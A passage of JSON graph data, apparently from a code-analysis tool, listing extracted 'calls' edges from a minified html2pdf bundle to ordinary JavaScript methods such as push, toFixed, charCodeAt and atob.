"static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateCross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "calculateCross"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addPage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "html2canvas"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "then"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "onrendered"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "png"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "reduce"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "supportsArrayBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "supportsArrayBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "atob"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sHashCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "convertStringToImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadImageFile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getImageFileTypeByImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "binaryStringToUint8Array"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "extractInfoFromBase64DataURI"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "validateStringAsBase64"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "atob"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "validateStringAsBase64"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "atob"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subarray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBufferView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBufferView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arrayBufferToBinaryString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createImageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "overrideMimeType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "send"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "warn"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "convertStringToImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "loadImageFile"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getImageFileTypeByImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "binaryStringToUint8Array"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toFixed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "notEmpty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newAdditionalObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newAdditionalObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "link"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCurrentPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getTextWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getLineHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "text"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "link"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getStringUnitWidth"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getLineHeight"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 